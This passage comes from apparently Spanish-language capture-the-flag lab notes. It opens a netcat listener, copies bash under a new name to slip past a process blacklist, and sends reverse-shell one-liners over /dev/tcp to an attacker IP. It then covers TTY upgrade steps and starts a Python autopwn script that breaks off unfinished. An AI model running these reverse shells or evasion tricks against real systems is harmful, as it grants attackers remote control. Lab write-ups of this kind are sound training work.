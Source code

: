1. Nos ponemos en escucha por el puerto 443 en la maquina de atacante

    ```bash
    nc -nlvp 443
    ```

1. Copiamos el tool bash en un lugar donde tenemos derechos de escritura y lo nombramos de otra manera

    ```bash
    cp /bin/bash /dev/shm/s4vitar
    ls /dev/shm/s4vitar
    /dev/shm/s4vitar -i >& /dev/TCP/10.10.14.20/443 0>&1
    /dev/shm/s4vitar -c "/dev/shm/s4vitar -i >& /dev/TCP/10.10.14.20/443 0>&1"
    /dev/shm/s4vitar -c '/dev/shm/s4vitar -i >& /dev/TCP/10.10.14.20/443 0>&1'
    ```

Este truquillo muestra la manera de BlackListear que utiliza la maquina victima porque ya hemos podido entablar la shell
y no nos mata la session.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
export SHELL=bash

stty -a

stty rows <numero filas> columns <numero columnas>
```

### Creacion del autopwn en python {-}

Aqui s4vitar decide crear un autopwn para automatizar el processo de ganacia de accesso

```python
#!/usr/bin/python3

import requests
import pdb
import sys
import signal
import threading
import time

from pwn import *

def def_handler(sig, frame):
    
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://10.10.10.27/admin.php"
burp = {'http': 'http://127.0.0.1:8080'}
lport = 443

def makeRequest():

    headers = {
```